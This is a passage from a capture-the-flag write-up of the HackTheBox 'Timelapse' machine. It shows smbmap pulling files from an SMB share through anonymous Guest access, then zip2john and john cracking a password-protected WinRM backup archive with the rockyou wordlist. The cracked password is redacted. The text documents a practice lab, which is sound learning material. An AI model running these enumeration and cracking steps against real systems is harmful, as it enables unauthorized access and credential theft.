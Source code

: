 Hmm... What's that `winrm_backup.zip` in `Dev` directory?

**Let's download all of the files:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|15:38:22(HKT)]
└> mkdir smb_findings; cd smb_findings
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|15:42:05(HKT)]
└> smbmap -H $RHOSTS -u 'Guest' -p '' -R 'Shares' -A '.*'
[+] IP: 10.10.11.152:445	Name: timelapse.htb                                     
[+] Starting search for files matching '.*' on share Shares.
[+] Match found! Downloading: Shares\Dev\winrm_backup.zip
[+] Match found! Downloading: Shares\HelpDesk\LAPS.x64.msi
[+] Match found! Downloading: Shares\HelpDesk\LAPS_Datasheet.docx
[+] Match found! Downloading: Shares\HelpDesk\LAPS_OperationsGuide.docx
[+] Match found! Downloading: Shares\HelpDesk\LAPS_TechnicalSpecification.docx
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|15:42:34(HKT)]
└> file *     
10.10.11.152-Shares_Dev_winrm_backup.zip:                      Zip archive data, at least v2.0 to extract, compression method=deflate
10.10.11.152-Shares_HelpDesk_LAPS_Datasheet.docx:              Microsoft Word 2007+
10.10.11.152-Shares_HelpDesk_LAPS_OperationsGuide.docx:        Microsoft Word 2007+
10.10.11.152-Shares_HelpDesk_LAPS_TechnicalSpecification.docx: Microsoft Word 2007+
10.10.11.152-Shares_HelpDesk_LAPS.x64.msi:                     Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, MSI Installer, Code page: 1252, Title: Installation Database, Subject: Local Administrator Password Solution, Author: Microsoft Corporation, Keywords: Installer, Comments: Version: 6.2.0.0, Template: x64;1033, Revision Number: {7E1C3ED1-C10E-4A84-AE14-E165EF9C0C8F}, Create Time/Date: Wed May  5 15:54:22 2021, Last Saved Time/Date: Wed May  5 15:54:22 2021, Number of Pages: 500, Number of Words: 2, Name of Creating Application: Windows Installer XML Toolset (3.14.0.4118), Security: 2
```

In here, we downloaded a few files, those Word documents and the `zip` file looks interesting.

**Let's unzip `winrm_backup.zip` first:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|15:46:55(HKT)]
└> unzip 10.10.11.152-Shares_Dev_winrm_backup.zip 
Archive:  10.10.11.152-Shares_Dev_winrm_backup.zip
[10.10.11.152-Shares_Dev_winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password
```

It requires password... 

**We can crack it via `zip2john` and `john`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|15:47:35(HKT)]
└> zip2john 10.10.11.152-Shares_Dev_winrm_backup.zip > winrm_backup.zip.hash
[...]
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|15:47:45(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt winrm_backup.zip.hash 
[...]
{Redacted}    (10.10.11.152-Shares_Dev_winrm_backup.zip/legacyy_dev_auth.pfx)     
[...]
```
